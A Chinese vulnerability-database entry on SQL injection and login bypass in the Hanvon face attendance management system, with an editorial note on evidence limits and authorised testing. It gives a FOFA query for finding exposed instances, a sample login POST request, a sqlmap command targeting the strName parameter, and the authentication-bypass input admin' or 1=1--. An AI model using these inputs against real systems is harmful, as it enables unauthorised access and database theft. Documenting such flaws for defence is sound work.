



# 汉王人脸考勤管理系统 Login Check strName SQL 注入及登录绕过

## 条目说明

- 对象与具体问题：汉王人脸考勤管理系统；Login Check strName SQLi及登录绕过
- 版本、配置及部署条件：数据库/产品版本未知
- 认证与权限前提：登录前初始会话
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- FOFA title双双引号错误，HTTP标shell，version产品名和空标题需清理
- 常规请求、sqlmap命令及万能密码输入三种材料相关但只有截图结果，补HTTP错误/会话证明
- 万能密码属于同SQLi影响，不应另计无关漏洞；缺修复/源码
- 示例弱口令不说明默认，切勿扩大

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

### 漏洞影响

```
汉王人脸考勤管理系统
```

### 网络测绘

```
title=""汉王人脸考勤管理系统""
```

### 漏洞复现


登录界面如下





请求包如下


```http
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```

> 请求长度说明：原资料 Content-Length 为 27；保留原始标头；其数值未据实际请求体重新计算或验证。


其中strName参数存在注入


```shell
sqlmap -r postwang.txt -p strName  --current-user
```





```plain
user: admin' or 1=1--
pass: admin
```


万能密码绕过登录





##


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
